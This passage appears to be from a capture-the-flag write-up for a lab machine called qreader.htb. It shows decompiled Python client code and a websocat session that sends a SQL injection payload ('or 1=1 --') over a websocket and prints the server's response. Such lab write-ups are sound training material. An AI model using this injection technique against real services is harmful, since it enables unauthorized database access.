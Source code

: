 ```python
    
    def update(self):
        response = asyncio.run(ws_connect(ws_host + '/update', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            msg = '[INFO] ' + data['message']
            self.statusBar().showMessage(msg)
        else:
            error = data['error']
            self.statusBar().showMessage(error)

    __classcell__ = None


async def ws_connect(url, msg):
    pass

# WARNING: Decompyle incomplete


def main():
    (status, e) = setup_env()
    if not status:
        print('[-] Problem occured while setting up the env!')
    app = QApplication([])
    window = MyGUI()
    app.exec_()

if __name__ == '__main__':
    main()
```


## Websocket SQLI

Confirm SQLI

```bash
┌──(root㉿kali)-[~/socket]
└─# ./websocat.x86_64-unknown-linux-musl ws://ws.qreader.htb:5789/version -v
[INFO  websocat::lints] Auto-inserting the line mode
[INFO  websocat::stdio_threaded_peer] get_stdio_peer (threaded)
[INFO  websocat::ws_client_peer] get_ws_client_peer
[INFO  websocat::ws_client_peer] Connected to ws
{"version": "0.0.2\" or 1=1 --"}
[INFO  websocat::ws_peer] Received WebSocket close message
{"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
[INFO  websocat::sessionserve] Reverse finished
```

Use a script to transfer websocket to http
